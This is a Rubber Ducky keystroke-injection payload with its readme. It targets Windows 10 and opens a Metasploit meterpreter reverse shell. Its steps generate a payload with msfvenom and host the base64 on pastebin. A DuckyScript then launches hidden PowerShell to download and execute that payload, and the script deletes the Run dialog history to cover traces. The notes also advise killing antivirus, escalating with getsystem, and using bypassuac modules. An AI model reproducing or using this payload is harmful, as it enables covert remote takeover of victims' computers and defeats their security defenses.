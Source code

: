 * Author: Finianb1 + @0xCoto

* Target: Windows 10, probably works on Windows 7

* Description: Makes a meterpreter reverse shell by downloading base64 from pastebin. Clears run menu history afterwards.

* Configuration: Generate payload using this command: ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh-cmd --smallest```  Cut the payload down to JUST the base64. Upload to pastebin, my example: [https://pastebin.com/KQpwbiRS](https://pastebin.com/KQpwbiRS). Then, simply convert this URL to a raw URL by adding a /raw/ in it (https://pastebin.com/raw/KQpwbiRS) or by clicking on the "raw" button and copying the link. Now you have your URL!  
You can URL shorten it if you'd like, just make sure you use the raw link and not the normal pastebin link. Now change the ```$u='YOUR_LINK'``` to your URL (e.g. ```$u='https://pastebin.com/raw/KQpwbiRS'```). Then simply upload it to your rubber ducky, and you can get extremely fast shells.

* NOTE: It is recommended you migrate the shell and kill antivirus as soon as possible, as most antiviruses will pick up on a meterpreter shell and kill it. Running ```getsystem``` command on meterpreter is also great. Use the windows/local/bypassuac modules (find them with the command ```search bypassuac```, I find that ```exploit/windows/local/bypassuac_injection_winsxs``` works very well for my Windows 10 device, disabled antivirus of course!) for Windows 8 and up. This will allow you to bypass the UAC on windows, any level, and be able to freely run the ```getsystem``` command, which essentially lets you do anything.

```
REM Opens a meterpreter using a pastebin link
REM See https://github.com/hak5/bashbunny-payloads/blob/master/payloads/library/remote_access/SingleSecondShell/readme.md
REM For how to create a link to your personal shellcode
DELAY 2000
GUI r
DELAY 1000
STRING powershell -windowstyle hidden $u='YOUR_LINK';$r=Invoke-WebRequest -Uri $u;powershell -nop -e $r.content
ENTER
GUI r
DELAY 1000
STRING powershell -WindowStyle Hidden -Exec Bypass "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue"